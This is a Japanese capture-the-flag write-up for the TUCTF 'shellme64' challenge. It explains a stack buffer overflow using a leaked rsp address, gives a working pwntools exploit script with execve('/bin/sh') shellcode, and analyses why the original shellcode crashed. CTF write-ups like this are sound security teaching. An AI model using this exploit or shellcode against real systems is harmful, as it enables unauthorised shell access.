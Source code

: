 # TUCTF shellme64 pwn

## 問題
* binary
```
$ file shellme64 
shellme64: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, BuildID[sha1]=83254c97da6347cf9cb96f7fe5fad3a28968a719, for GNU/Linux 3.2.0, not stripped
```
* 実行時にrspのアドレスが出力されている

## 解法

rspに入っているアドレスがわかっているのでリターンアドレスをスタックの先頭アドレスに書き換えてシェルコードを実行させる。

```python
from pwn import *

io = process("./shellme64")
# io = remote("chal.tuctf.com", 30507)

# execve("/bin/sh")
# 命令\x57(push rdi)を削除している
shellcode = "\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x48\x89\xe6\xb0\x3b\x0f\x05"

buf = io.read()
addr_rsp =  buf[-17:-3]
print 'rsp address: {}'.format(addr_rsp)
addr_rsp = int(addr_rsp, 16)

exp = ""
exp += shellcode
exp += "A" * 100
exp = exp[:40]
exp += p64(addr_rsp)

io.send(exp)
io.interactive()

```

## 困った点

[シェルコード](http://shell-storm.org/shellcode/files/shellcode-603.php)を実行させようとすると、`push rdi`の命令でSEGVで死んだ。
コンテスト中はとりあえずその命令を削除することでシェルを起動させることができたが、原因はつかめなかった。

### SEGVの原因

`push rdi`直前の命令ででスタック上のシェルコードの最後の数バイトが上書きされてしまっていた。


SEGV直前のスタックの状態は下のようなイメージ. この次の`push rax`が実行されると送り込んだシェルコードが
書き換えられてしまう。

|  stack |
|--------|
|push rax|<- rip
|push rdi|
|mov rsi, rsp|
|mov al, 0x3b|
|syscall|
|000000000| <- rsp
|"/bin/sh"|

push rax が実行される直前の状態。まだシェルコードは正しい状態で残っている。
![before crushed](https://github.com/wani-hackase/wani-writeup/blob/master/2019/11-tuctf/shellme64/shellcode_before_crushed.png)


push rax が実行された直後の状態。push rdi以降の命令が壊されている
![crushed](https://github.com/wani-hackase/wani-writeup/blob/master/2019/11-tuctf/shellme64/shellcode_crushed.png)
